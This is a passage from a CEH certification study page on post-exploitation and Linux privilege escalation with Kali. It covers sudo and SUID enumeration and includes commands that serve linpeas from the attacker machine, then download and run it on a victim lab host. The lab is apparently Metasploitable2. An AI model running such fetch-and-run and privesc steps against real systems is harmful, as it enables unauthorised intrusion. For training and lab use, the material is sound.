

repository: morandeirachema/CyberCerts · page: certs/ceh/kali/14-post-exploitation-pivoting/index.html · generator: mkdocs

# 14 — Post-Exploitation & Pivoting

> **What you'll learn:** what to do *after* you get a shell — escalate to full control, loot credentials, understand persistence, and **pivot** through one compromised host to reach a hidden network you couldn't touch before.
> **Prerequisites:** [13 — Wireless](13-wireless.md). ⬅ [Course index](README.md)

Maps to CEH [Module 06 — System Hacking](../modules/06-system-hacking/README.md), the **Escalating Privileges → Maintaining Access** phases. You've *gained access*; this chapter is everything that comes next.

---

## You have a shell — now what?
A **foothold** is your first working access to a target — usually a **shell** (a command prompt on the victim). Beginners celebrate the shell and stop. Professionals treat it as the *starting line*. There are four goals, and they map straight onto the CEH methodology:

| Goal | Plain English | CEH phase |
|---|---|---|
| **Escalate** (privesc) | Turn a low-privilege user into `root` / `SYSTEM` (full admin) | Escalating Privileges |
| **Loot** | Harvest passwords, hashes, keys, and interesting files | Maintaining Access |
| **Pivot** | Use this host as a stepping-stone into networks Kali can't reach | Maintaining Access |
| **Persist** | Keep a way back in after a reboot | Maintaining Access |

**Privilege escalation** ("privesc") means going *up* — from a normal user to administrator. **Vertical** = more power; **horizontal** = same power, different user (handy when the other user can reach things you can't).

## Privilege escalation — Linux
First, orient yourself. Who am I, and what am I allowed to do?

```bash
id                              # my user + groups
sudo -l                         # what can I run with sudo? (the #1 privesc win)
find / -perm -4000 -type f 2>/dev/null   # SUID binaries — run as their owner (often root)
```
- **`sudo -l`** lists commands you may run as another user. If it shows something like `(root) NOPASSWD: /usr/bin/find`, you can often abuse that program to spawn a root shell (see [GTFOBins](https://gtfobins.github.io/)).
- **SUID** (`-perm -4000`) marks a program that runs *as its owner* no matter who launches it. A misconfigured SUID-root binary is a ticket to root.

*You should see* one or two SUID paths that look out of place (e.g. `nmap`, `vim`, `find` in the list). Those are your leads.

**linpeas** automates the whole hunt — it checks hundreds of misconfigurations and colour-codes the juicy ones. Serve it from Kali, run it on the victim:
```bash
# On Kali (192.168.56.10): fetch linpeas and share it over HTTP
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 80

# On the victim shell (e.g. Metasploitable2, 192.168.56.20):
cd /tmp
wget http://192.168.56.10/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.out       # tee = show it AND save a copy
```
*You should see* screens of output; anything printed in **red/yellow** ("95% PE vector") is where to focus.
